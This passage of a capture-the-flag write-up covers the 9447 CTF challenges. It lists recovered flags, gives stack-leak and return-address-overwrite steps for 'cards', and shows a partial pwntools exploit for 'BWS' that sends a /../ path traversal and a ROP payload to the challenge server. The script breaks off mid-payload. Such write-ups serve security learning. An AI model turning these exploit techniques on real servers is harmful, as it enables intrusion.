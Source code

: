 The flag was 

{% highlight text %}
9447{th1s_O5_is_a_gl0rifi3d_c4lculat0r}
{% endhighlight %}

# cards
*This challenge was solved by and the write up was written by one of my teammates, nguyen.*

Steps to solve the challenge:

* get .text address in stack after play game
* send payload to leak one of these address
* send payload to corrupt return address in stack 
* make it to return to printFlag

The flag was 

{% highlight text %}
9447{ThE_Only_w1nn1Ng_M0ve_1S_t0_stEAl_The_flAg}
{% endhighlight %}

# BWS
*This challenge was solved by and the write up was written by one of my teammates, nguyen.*

The vulnerability was in the URL parsing function. If you passed /../ as an URL it could read before the output buffer until the next "/" character.

The exploit code was:

{% highlight python %}
from pwn import *
context.arch = 'amd64'

#pwn
r = remote('bws-ad8sfsklw.9447.plumbing', 80)
#r = remote('localhost', 33000)

raw_input('attach')

# stage 1 : prepare 0x2f
payload = ''
payload += 'GET '
payload += '/'*200
payload += ' HTTP/1.1\r\n\r\n'
r.send( payload )
print r.recv(8192)

# stage 2 : start ROP 
payload = ''
payload += 'GET /../'
payload += 'A'*8
payload += 'B'*8
payload += 'C'*8
payload += 'D'*8
payload += 'E'*8
payload += 'F'*8
payload += 'G'*8
payload += 'H'*8
payload += 'I'*8
payload += '1234\x39\x0f\x408'	# magic lifting!!
payload += 'kkk'
payload += pack(0x00000d6666666666)